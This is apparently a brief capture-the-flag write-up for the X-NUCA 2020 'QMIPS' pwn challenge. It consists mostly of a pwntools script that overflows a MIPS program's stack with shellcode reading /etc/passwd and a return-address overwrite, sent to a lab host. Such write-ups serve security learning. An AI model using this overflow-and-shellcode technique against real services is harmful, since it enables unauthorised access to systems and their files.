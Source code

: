 ```yaml
---
title: X-NUCA 2020 QMIPS
date: 2020-12-11 00:00:00
categories:
- CTF/Pwn
tags: 
---
```


> 又是瞎发包测出来的栈溢出，给出的MIPS程序IDA7.5居然没法分析：

附件：[qmips.zip](https://xuanxuanblingbling.github.io/assets/attachment/xnuca/qmips.zip)

```python
from pwn import *
context(arch='mips',endian='big')

shellcode = asm(shellcraft.mips.linux.cat("/etc/passwd",7))
payload = shellcode.ljust(544,'a') + p32(0x418290)
io = remote("10.10.10.135",8000)
io.send(payload)
io.interactive()
```